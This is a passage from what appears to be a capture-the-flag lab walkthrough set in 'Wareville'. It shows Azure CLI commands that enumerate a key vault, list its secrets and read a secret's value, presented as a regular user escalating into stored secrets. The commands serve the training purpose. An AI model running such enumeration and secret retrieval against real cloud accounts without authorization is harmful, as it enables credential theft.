 ```console
usr-xxxxxxxx [ ~ ]$ az keyvault list
[
  {
    "id": "/subscriptions/{subscriptionId}/resourceGroups/rog-aoc-kv/providers/Microsoft.KeyVault/vaults/warevillesecrets",
    "location": "eastus",
    "name": "warevillesecrets",
    "resourceGroup": "rg-aoc-kv",
    "tags": {
      "aoc": "rg"
    },
    "type": "Microsoft.KeyVault/vaults"
  }
]
```

The output above confirms the key vault discovered from the role assignments named **warevillesecrets**. Now, let's see if secrets are stored in this key vault.

```console
usr-xxxxxxxx [ ~ ]$ az keyvault secret list --vault-name warevillesecrets
[
  {
    ---REDACTED FOR BREVITY---
    "id": "https://warevillesecrets.vault.azure.net/secrets/REDACTED",
    "managed": null,
    "name": "REDACTED",
    "tags": {}
  }
]
```

After executing the two previous commands, we confirmed that the **Reader** role allows us to view the key vault metadata, specifically the list of key vaults and secrets. Now, the only thing left to confirm is whether the current user can access the contents of the discovered secret with the **Key Vault Secrets User** role. This can be done by executing the following command.

```console
usr-xxxxxxxx [ ~ ]$ az keyvault secret show --vault-name warevillesecrets --name REDACTED
{
  ---REDACTED FOR BREVITY---
  "id": "https://warevillesecrets.vault.azure.net/secrets/REDACTED/20953fbf6d51464299b30c6356b378fd",
  "kid": null,
  "managed": null,
  "name": "REDACTED",
  "tags": {},
  "value": "REDACTED"
}
```

**Note**: Replace the value of the **--name** parameter with the actual secret name.

"Bingo!" the Glitch exclaimed as he saw the output above. McSkidy had confirmed her nightmare that a regular user could escalate their way into the secrets of Wareville.
